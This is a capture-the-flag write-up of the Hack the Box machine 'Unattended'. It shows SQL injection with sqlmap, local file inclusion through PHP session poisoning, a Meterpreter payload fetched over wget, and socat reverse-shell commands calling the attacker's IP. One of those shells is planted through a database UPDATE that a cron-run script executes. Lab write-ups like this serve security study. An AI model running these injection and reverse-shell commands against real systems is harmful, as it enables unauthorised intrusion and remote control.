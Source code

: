 +++
author = "Nick"
categories = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
date = 2019-08-24T15:06:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-3.png"
slug = "hack-the-box-unattended"
summary = "Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!"
tags = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
title = "Hack the Box - Unattended"

+++


Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!

As alwasy, the first thing we do is our standard nmap scan: ```nmap -sC -sV -oA unattended 10.10.10.126```. We get a pretty normal output. We see that the scan leaks a host name of nestedflanders.htb. We'll add that to our hosts file: ```bash echo "10.10.10.126     nestedflanders.htb" >> /etc/hosts```. 

We will head over to the web interface on the box and see what's there. We are greated with an Apache2 install landing. Normally, we would run dirb or gobuster against the domain to enumerate it but this time, we'll run [Nikto](https://github.com/sullo/nikto). We issue a standard ```nikto -host https://nestedflanders.htb``` and wait for our results. Often Nikto is slow but fairly comprehensive.

We see that there are two index files. A index.html and an index.php. If we head over to index.php we are greated with the man himself!

![](/images/2019/08/image-27.png)

As we explore the site, we see what could be a SQLi.

![](/images/2019/08/image-28.png)

We'll boot up SQLmap and see what we can find. We need sqlmap the page id: ```sqlmap -u https://nestedflanders.htb/index.php?=587 --dbs --threads 10```. We let nmap run and see what it enumerates.

![](/images/2019/08/image-29.png)

We see a database called neddy, lets check the tables within. ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --tables --threads 10```

![](/images/2019/08/image-31.png)

We see there are some tables, but the tables 'filepath' sticks out, lets dump it. The reason that this one seems to be a first pick is because when it comes to filepaths and databases, we might be able to LFI our way in. We issue ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --T filepath --dump --threads 10```.

![](/images/2019/08/image-32.png" caption="Our three entries. These are the same links listed on the page as well. Hmm...)

We see that our table has three entries. These are also the same values on the index.php as well. While looking at this table, we can see if pathing to the value gets us to this path.

![](/images/2019/08/image-33.png)

We see that this does indeed send us to the same page. We can test for injection manually to read a the hosts file. After googling around t[his page](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/) was a pretty great resource for this.

![](/images/2019/08/image-34.png" caption="This query results in the below.)

![](/images/2019/08/image-35.png" caption="We got an output!)

Now we are going to have to see if we can read the PHP Session file. We can do the same process as above but targeting our session file. That file is stored in /var/lib/php/sessions/sess_{ID}.

![](/images/2019/08/image-36.png)

![](/images/2019/08/image-37.png)

The goal here is to inject a reverse shell into this session file.  We can poc it by appending a small function at the end of our session value and reading it back

![](/images/2019/08/image-38.png" caption="Session poisoned.)

![](/images/2019/08/image-39.png" caption="Session called back with the same command above, but we see we have the whoami command output.)

Now that we know this will work, lets create a reverse shell. We'll do this with MSFPC so we can have a Meterpreter session. We will issue ```msfpc php``` and follow up our prompts.

![](/images/2019/08/image-40.png)

We will host a http server for our script. We will then inject the wget command to tell the system to download it from us.

![](/images/2019/08/image-41.png)

We see that the file was downloaded:

![](/images/2019/08/image-42.png)

Now we need to call the session via the LFI.

![](/images/2019/08/image-43.png)

And we see our Meterpreter session light up!

![](/images/2019/08/image-44.png)

We have a shell and we see there is only 1 users, guly. However, we are only www-data so we don't have rights to list her directory. We can look at all the items we have at our disposal. When we cat the index.php file we see some credentials:

![](/images/2019/08/image-45.png)

Awesome, we have some credentials. We continue our enumeration and see a file called check.pl in the /var/www directory. We download the file so we can see what it does. Seemingly executes items in 'checkrelease' when its called. We also know that the script is run every minute.

However, it doesn't seem that I can save anything in any normal place on the box. So lets see what the database looks like. ```echo "use neddy; select * from config"|mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

![](/images/2019/08/image-46.png)

This is interesting, so based on the perl script we saw that runs every minute, we can probably modify this value to reverse back to us. This machine doesn't have netcat on it, but we do have access to [socat](https://linux.die.net/man/1/socat).

We will start up a socat listener on our local machine ```socat file:`tty`,raw,echo=0 tcp-listen:80``` Then we'll tell our box to call home ```socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:80```

![](/images/2019/08/image-47.png" caption="Our socat has activated.)

Now lets see if we can access mysql in this shell. ```mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

![](/images/2019/08/image-48.png)

Lets updated ID 86 to call back to us again. ```UPDATE config SET option_value = "socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:443" where id = 86;```

This gives us a shell back as Guly, we have user.txt! When enum Guly's groups we see she is part of the grub group. We head to the boot directory and try to find some data here. We see that initrd.im-4.9.0-8-amd64 is owned by grub. We extract the image and see that it's encrypted. We can copy this to our local machine and simply sudo ./uninitrd c0m3s3f0ss34nt4n1. That gives us the key to unlock the drive and we have root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

